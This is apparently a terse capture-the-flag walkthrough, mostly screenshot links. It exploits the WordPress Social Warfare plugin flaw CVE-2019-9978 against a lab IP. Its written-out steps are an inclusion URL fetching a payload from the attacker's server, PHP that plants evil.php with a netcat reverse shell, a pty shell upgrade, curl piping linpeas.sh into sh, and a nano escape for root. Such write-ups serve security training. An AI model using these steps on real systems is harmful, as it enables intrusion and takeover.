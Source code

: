 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a3192bd-a9f7-4d49-8f55-cd7d413a3030)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/35afcfd3-c02c-428e-9a51-6170cbdc4c9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcf4b7cd-4083-4f46-acd5-abf2caea684b)

https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d72555fb-cdea-465f-b7ef-88f3b3a0e9c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f375f35-83c9-4ccf-8a0a-10fa53f67418)

http://62.173.140.174:18500/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP:8000/test1.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3459d5a4-270b-45bd-b2dd-d2a41ec791f2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/50aef2fe-4e4f-4a44-bfec-e13b2ad3bce2)

fwrite(fopen("evil.php","w") ,"<?php system('nc -e /bin/sh ip 1234'); ?>");

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc8893b3-2b6e-4cfd-b73e-5d6befc39067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aaa34946-da07-4486-a3da-e44dacb237de)

python3 -c 'import pty; pty.spawn("/bin/bash")'

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fbec7dca-fa7a-4af9-8552-6ffd26e251fd)

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/477c0f35-9c63-43e8-aa78-b7f8706a03a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/335aba48-2e63-4e31-91da-5d0e2f11e95e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c08cd01d-b873-4a3d-b91e-bcf9d46d57ec)

https://gtfobins.github.io/gtfobins/nano/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/610b153b-5db5-4261-b0c4-bacb185c25a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/def0b1fa-f68b-4bd6-bd28-db7cae2a4c0a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e933bf3a-2280-44e7-98cc-186d0dc29943)

^R^X

reset; sh 1>&0 2>&0

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44964b5b-bb9b-4a36-953d-32a149a49b47)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e75a7d5-6e4e-4163-b967-b9fd69d444ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fac8a32b-afa7-48cf-87ac-9ec865660f42)



